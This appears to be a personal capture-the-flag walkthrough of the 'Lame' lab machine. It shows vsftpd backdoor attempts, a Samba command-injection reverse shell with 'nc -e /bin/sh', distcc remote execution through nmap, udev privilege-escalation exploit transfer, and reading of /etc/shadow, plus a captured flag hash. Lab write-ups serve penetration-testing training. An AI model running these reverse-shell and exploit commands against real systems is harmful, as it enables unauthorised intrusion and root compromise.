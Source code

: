 
## FTP vsFTPd 2.3.4
#ftp
1. Method 1
	**T1592.002 Gather Victim Host Information** 
	
	Run: 
	
	`ftp 10.10.10.3
	![[Pasted image 20230225080026.png]]
	
	`searchsploit vsftpd
	![[Pasted image 20230225080134.png]]
	
	Exploit for vsFTPd 2.3.4:
		vsftpd 2.3.4 - Backdoor Command Execution                                | unix/remote/49757.py
		vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)            | unix/remote/17491.rb
	
	
	Read and check exploit:
	`searchsploit -x 17491`
	![[Pasted image 20230225081117.png]]
	Ref: 
	http://pastebin.com/AetT9sS5'],
	'http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html'

	ftp 10.10.10.3 21 
	username: testers:)
	password: testers
	//on separate pane open nc to 10.10.10.3 6200
	nc 10.10.10.3 6200
	id
	//failed;nothing happening
	
	**Result: does not work as of the moment (may resume later)**



---
## SMB / Samba
#smb 
1. Method 1 - Try Again
	sudo smbclient --no-pass --user='/=`nohup nc -e /bin/sh 10.10.16.2 443`' //10.10.10.3/tmp
	![[Pasted image 20230226182328.png]]
	Result: SMB Method does not work at the moment

2. Method 2 - Success 
	//open smbclient
	sudo smbclient --no-pass //10.10.10.3/tmp
	
	// start a reverse shell to you kali over port 443 from smblicent //10.10.10.3/tmp
	logon "/=`nohup nc -e /bin/sh 10.10.16.2 443`" //10.10.10.3/tmp    
	
	// in parallel, open another pane and start a listener 
	nc -nvlp 443
	
	// test using 'id' to indicate root ID; it is working
	id 
	whoami
	which nc
	which python
	![[Pasted image 20230226182435.png]]
	**Result SMB Method 2: it works**

3. Additional Exploit: Privilege Escalation - It works
	//import pwn
	python -c 'import pty;pty.spawn("/bin/bash")'
	
	
	//check for blocks in firewall iptables
	iptables -L
	//find the flags user.txt and root.txt
	`find / -iname user.txt -exec wc {} \;`
	`find /  -iname root user.txt -exec wc {} \;`
	![[Pasted image 20230226184046.png]]
	![[Pasted image 20230226191208.png]]
	ls
	cd root
	cat root.txt 
	Success > get hash/flag: 9055020c419f7cb47bcac12a71f83a19


## Resume FTP vsFTPd 2.3.4 exploit(figure out) 
#ftp 
<u>This is done after getting root via samba exploit </u>
1. Retry
	Figure out wht ftp exploit not working > block? 
	//Find out which user has bash !!! 
	cat /etc/shadow | grep bash
	cat /etc/shadow | grep sh
	 //no results and cat of /etc/shadows only shows hash values
	![[Pasted image 20230226185052.png]]
	
	//check port 6200
	netstat -pantl | grep 6200
	// try fo find account that have a shell
	cat /etc/passwd | grep bash 
	![[Pasted image 20230226191649.png]]
	cat /etc/passwd | grep sh
	![[Pasted image 20230226191820.png]]
	//user makis has a shell
	//try user makis to start shell
	su - makis -c bash
	whoami
	![[Pasted image 20230226185223.png]]
	
	//go back to ftp pane and rerun exploit
	ftp 10.10.10.3
	user: testers:)
	password: testers  
	//in smb pane using makis user, open/connect nc local host port 6200
	nc 127.0.0.1 6200    //why port 6200?
	//check if makis user was escalated to root using ID
	id
	 ![[Pasted image 20230226192608.png]]
	 //check logs for blocking port 6200
	 cat /var/log messages.0 | grep 6200
	 ![[Pasted image 20230226213433.png]]
	 **Result of ftp exploit: user makis was escalated to root **

---
## ## OpenSSH 4.7p1 Debian 8ubuntu1
#openssh 

1. Method 1: distcc
	//checkdistcc
	searchsploit distcc
	![[Pasted image 20230226213559.png]]
	CVE', '2004-2687
	http://distcc.samba.org/security.html
	![[Pasted image 20230226213840.png]]
	![[Pasted image 20230226213913.png]]
	find /usr/share/nmap/scripts/*dist* -type f 2>/dev/null
	cat /usr/share/nmap/scripts/distcc-cve2004-2687.nse
	![[Pasted image 20230226215641.png]]
	// need to change the name of the script to match the usage format
	sudo mv /usr/share/nmap/scripts/distcc-cve2004-2687.nse /usr/share/nmap/scripts/distcc-exec.nse
	sudo nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='id'"
	//Executing 'id' command from nmap distcc RCE


## Upgrade to shell access from nmap distcc
T1404: Exploit OS Vulnerability
T1588.005: Resource Development

// Find if netcat is available 
sudo nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='which nc'"
![[Pasted image 20230304172853.png]]
yes, nc is available

// Try to do a reverse shell 
create a separate session and listen on port 443
sudo nc -nvlp 443

on separate session, create a reverse shell
sudo nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/sh 10.10.16.4 443'"
![[Pasted image 20230304173415.png]]

//upgrade the shell
python -c 'import pty;pty.spawn("/bin/bash")'
![[Pasted image 20230304173540.png]]

// suspend the process: ctrl-z

//set terminal to  raw" mode - means what is sent should be exactly what is received. 
stty raw -echo

//foreground the process
fg

// determine version of operating system
lsb_release -a
![[Pasted image 20230304174031.png]]

uname -a
![[Pasted image 20230304174202.png]]

//check ubuntu 2.6  in searchsploit, find privilege excalation options
searchsploit 2.6 ubuntu 8 
![[Pasted image 20230304174641.png]]

// inspect vulnerability
searchsploit -x 8572

//check how to use vuln
![[Pasted image 20230304174904.png]]

//verify if udevd is running on the reverse shell
ps -aux | grep dev

![[Pasted image 20230304175039.png]]
udevd is running as root
the PID of the udevd is 2742

// check the PID of /proc/net/netlink socket ( usually PID of udevd minus 1)
cat /proc/net/netlink
![[Pasted image 20230304180042.png]]
PID of socket is 2741

// mirror/copy this exploit 
sudo searchsploit -m 8572.c
![[Pasted image 20230304180315.png]]

// enable server in port 80 to then be copied to the victim machine
sudo python3 -m http.server 80
![[Pasted image 20230304180502.png]]

// go to reverse shell, and transfer exploit to lame machine/victim machine
//check if wget is available
which wget
![[Pasted image 20230304180656.png]]

// transfer 8572.c
![[Pasted image 20230304181346.png]]

//check for gnu compiler if available
![[Pasted image 20230304181455.png]]

// compile the exploit using gcc
gcc 8572.c -o 8572

![[Pasted image 20230304181604.png]]

//create the run file 
echo '#!/bin/bash' > run 
echo 'nc -nv 10.10.16.4 9001 -e /bin/bash' >> run 
![[Pasted image 20230304182100.png]]

//open another session and listen to port 9001
nc -nvlp 9001

//on the reverse shell, run the exploit and pass the PID of the socket as argument 
./8572 2741

![[Pasted image 20230304182342.png]]
the exploit does not work 
the file may have been corrupted


//Try something else: tar transfer

//check if tar is available
which tar
![[Pasted image 20230304182535.png]]

//on lame victim machine, setup a nc listener on 9001 and pipe to tar
nc -nvlp 9001 | tar -xf -

// on a different session, compress the export using tar
tar -cf - 8572.c  | nc -nv 10.10.10.3 9001
there is no status message

// on revershell and you other session do md5sum to check hash of exploit is the same 
![[Pasted image 20230304183638.png]]

//recompile the exploit
gcc 8572.c -o 8572
//check compile time if right
![[Pasted image 20230304183916.png]]

//try rewrite the run file 
echo '#!/bin/bash' > run                 // rewrite
echo 'nc -e /bin/bash 10.10.16.4 9001'>> run 

//try to run the expliot again
./8572 2741

// still nothing happens
![[Pasted image 20230304184632.png]]



## LinPEAS (Linux Privilege excalation awesome script)
//try another approach 
T1083: Discovery: file and directory discovery
Link: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

//
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh





Next: [[4_Lame_Reporting]]